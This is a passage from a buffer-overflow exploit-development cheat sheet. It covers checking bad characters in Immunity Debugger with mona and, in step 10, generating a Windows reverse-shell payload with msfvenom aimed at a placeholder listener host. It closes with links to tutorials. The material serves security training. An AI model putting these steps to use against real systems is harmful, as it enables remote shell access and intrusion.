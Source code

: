 ```python
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2"
"\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```
put your bytearray in the POC e run to get in the immunity the address of the start of the bytearray in the stack (ZZZZZZZZ)

Inside Immunity Debugger
```bash
!mona compare -f c:\logs\appname\bytearray.bin -a ZZZZZZZZ
```
### 10 - Build a Payload (reverseshell)

using the msfvenom to build a payload of the reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp lhost=x.x.x.x lport=xxx -b "\x00\x0a\x0d\x......." -a x86 --platform win -v esp -f python
```

## Also see
{: .-one-column}

* [Build Exploits Exploring Buffer Overflow - Helvio Junior](https://www.helviojunior.com.br/category/it/security/criacao-de-exploits/){:target="_blank"}
* [Video: Understanding Buffer Overflow Concept](https://www.youtube.com/watch?v=wLi-dGphpdg&t=806s){:target="_blank"}
* [Video: How to do a Buffer Overflow](https://www.youtube.com/watch?v=oGZ01rvbfwE&t=6s){:target="_blank"}
